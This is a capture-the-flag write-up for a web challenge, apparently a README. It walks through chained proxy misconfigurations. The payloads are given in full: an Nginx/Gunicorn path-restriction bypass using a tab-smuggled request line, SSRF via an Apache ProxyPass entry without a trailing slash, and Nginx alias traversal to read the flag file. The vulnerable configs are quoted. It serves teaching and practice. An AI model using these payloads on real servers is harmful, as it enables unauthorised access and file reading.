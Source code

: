 ## Solving steps
1. Gunicorn + Nginx 403 `/admin` path restriction bypass via [technique](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14): `GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`
2. Find path as random UUID from the response: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`
3. Find `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` path with other backend
4. Exploit SSRF via misconfigured Apache ProxyPass: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx`
5. Exploit Nginx alias traversal for limited file reading: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`

![Schema](docs/dfd.png)

## Step #1

Hint is on main page:

```
Hello? My name is gunicorn and I have a friend called Nginx. We are really weird couple: proxy and backend :)</div><div>Can you find something behind /admin?
```

Keywords: weird, proxy, nginx, gunicorn

Player should find a way to bypass nginx path protection for reading /admin path.
Protection implemented at file: `reverse_nginx/nginx.conf`

```
    location /admin {
        deny all;
    }
```

The key is finding repo [weird_proxies](https://github.com/GrrrDog/weird_proxies/) and one of the last presentation by the author [Weird proxies/2 and a bit of magic
](https://speakerdeck.com/greendog/2-and-a-bit-of-magic). On slide #14 we can find reverse proxy inconsistence example for Nginx + Gunicorn: [Slide #14](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14)

Finally, payload is:
`GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`

Nginx after path normalization: `/` - is not /admin so there is no restriction to access
Forward: `/admin<TAB>HTTP/1.1/../../`
Gunicorn after path parsing: `/admin`


## Step #2

From the previous step we have "secret" path: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`

Here we found message:

```
    <h2>Search something?</h2>
    The application consists of several hosts:
    <ul>
        <li>default_backend_apache - accessible via /wiki/</li>
        <li>backend_nginx - internal network only</li>
    </ul>
```
Go to path `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` for accessing default_backend_apache.

Second bulnerability in reverse_apache misconfiguration in file `reverse_apache/my-httpd.conf`:

```
<VirtualHost *:80>
    DocumentRoot "/usr/local/apache2/htdocs/"
    ProxyPass    "/wiki/"  "http://default_backend_apache"
    ProxyPassReverse "/wiki/" "http://default_backend_apache/"
</VirtualHost>
```

`ProxyPass    "/wiki/"  "http://default_backend_apache"` is configured incorrectly (without trailing slash). So any character after `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` will be added to hostname `default_backend_apache`. It means it can be exploited for SSRF.
More info about misconfiguration [here](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md#vulnerable-configs)

For going to the next step: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91//wiki/@backend_nginx`

## Step #3

Pretty known Nginx alias traversal bug. More info about misconfiguration [here](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)
Misconfigured code in file `backend_nginx/nginx.conf`:

```
    # Alias traversal
    location /imgs {
        autoindex on;
        alias /usr/share/nginx/imgs/;
    }
```

Exploit for reading file: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`
Btw, nginx shows files in directory with configuration: `autoindex on;`. So it's easy to identify flag location after getting alias traversal.